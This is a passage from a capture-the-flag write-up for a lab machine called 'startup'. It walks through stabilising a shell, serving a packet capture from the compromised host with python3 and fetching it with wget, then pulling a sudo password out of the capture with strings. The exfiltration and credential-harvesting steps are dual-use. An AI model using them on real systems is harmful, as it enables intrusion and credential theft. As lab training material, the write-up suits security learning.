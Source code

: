 Now write `reset xterm` and you should have a better looking shell but you still have to execute a few commands:

```bash
export TERM=xterm
export SHELL=bash
stty rows 45 columns 184
```

Make a `stty size` in your own shell to know the rows and columns.

Now that we own a full TTY, i tried taking a look to the `user.txt` flag, but the flag is inside of `/home/lennie` and we currently have no privileges to access it.

After checking the common ways to **PrivEsc** nothing seems to work until checking if there was any unusual files/directories at the root of the system, i found a folder called `/incidents`.

```bash
www-data@startup:/$ cd incidents/
www-data@startup:/incidents$ ls -l
total 32
-rwxr-xr-x 1 www-data www-data 31224 Nov 12  2020 suspicious.pcapng
```

Inside i found a capture called `suspicious.pcapng`, this looks quite interesting, due to that the target machine does not have `strings` binary installed let's transfer the file to our own machine.

Firstly host the file in the target machine with `python3`.

```bash
www-data@startup:/incidents$ python3 -m http.server 8080
Serving HTTP on 0.0.0.0 port 8080 ...
```

Then download the file in our own machine with `wget`.

```bash
❯ wget http://10.10.17.121:8080/suspicious.pcapng
--2025-01-11 17:24:38--  http://10.10.17.121:8080/suspicious.pcapng
Connecting to 10.10.17.121:8080... connected.
HTTP request sent, awaiting response... 200 OK
Length: 31224 (30K) [application/octet-stream]
Saving to: ‘suspicious.pcapng.1’

suspicious.pcapng.1                            100%[=================================================================================================>]  30.49K   122KB/s    in 0.3s    

2025-01-11 17:24:38 (122 KB/s) - ‘suspicious.pcapng.1’ saved [31224/31224]
```

Once we get the file, let's use `strings` to get just the human-readable characters of it.

```bash
❯ strings suspicious.pcapng

<REDACTED>

cd lennie
bash: cd: lennie: Permission denied
www-data@startup:/home$ |
.?:MD
sudo -l
sudo -l
[sudo] password for www-data: 
@	c4ntg3t3n0ughsp1c3
6%	@
Sorry, try again.
[sudo] password for www-data: 
^/Sorry, try again.
[sudo] password for www-data: 
c4ntg3t3n0ughsp1c3
```